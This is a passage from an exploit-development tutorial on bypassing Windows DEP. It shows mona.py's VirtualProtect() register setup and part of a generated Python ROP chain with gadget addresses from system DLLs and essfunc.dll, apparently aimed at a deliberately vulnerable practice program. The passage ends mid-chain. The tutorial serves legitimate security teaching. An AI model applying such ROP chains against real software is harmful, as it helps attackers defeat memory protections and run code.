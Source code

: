 For 32 bit system, the `rop_chains.txt` file is located in the following path:
`C:\Program Files\Immunity Inc\Immunity Debugger`

![Path.png](/Windows-User-Mode-Exploit-Development-DEP-Part-4/712e1238fd734accb2becc98d18e689c.png)



The x86 assembly code shows that the registers and stack are being set up to call the Windows API function, [VirtualProtect()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect). More information can be found on MSDN.


```asm
################################################################################

Register setup for VirtualProtect() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualProtect()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualProtect()
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
--------------------------------------------


ROP Chain for VirtualProtect() [(XP/2003 Server and up)] :
----------------------------------------------------------
```

Here is the Python code Mona generated for us. Let's use this in our exploit

```python
*** [ Python ] ***

  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_ebp:---]
      0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR 
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR 
      0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR 
      #[---INFO:gadgets_to_set_edx:---]
      0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR 
```